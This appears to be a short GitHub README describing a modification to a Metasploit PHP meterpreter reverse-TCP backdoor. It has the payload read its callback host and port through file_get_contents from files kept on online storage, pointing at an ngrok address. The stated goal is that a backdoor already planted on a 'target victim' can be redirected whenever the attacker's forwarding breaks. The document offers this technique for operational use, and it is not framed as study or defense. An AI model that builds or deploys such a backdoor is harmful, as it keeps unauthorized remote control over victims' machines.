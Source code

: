 # Metasploit-Payload-PHP-Backdoor-Func

metasploit payload 'php/meterpreter/reverse_tcp' file_get_content

### look at line 4 through line 11, there you see the original source code on line 6 and line 7, and replace it like line 10 and line 11.

- $ip = file_get_contents ("url");

- $port = file_get_contents ("url");

Explanation: file_get_contents is to get the contents of the URL, so we create a file:

- host.txt (contains "0.tcp.ngrok.io")

- port.txt (contains "port", for example "13337")

and the file, uploaded to Hosting or Online storage.

### Why use file_get_contents?
Because, when the backdoor is installed and used in the target victim, we cannot change the IP: Port, when Port Forwarding is down or experiencing problems, we only need to change the contents of the file host.txt and port.txt in Hosting or Online Storage, and backdoor in the target victim will read the new contents of the file, and therefore we can make it change as we wish.


### You can read here : https://medium.com/@warifp/metasploit-ip-publik-fixed-port-dengan-ngrok-versi-gratis-fa4614934aaa
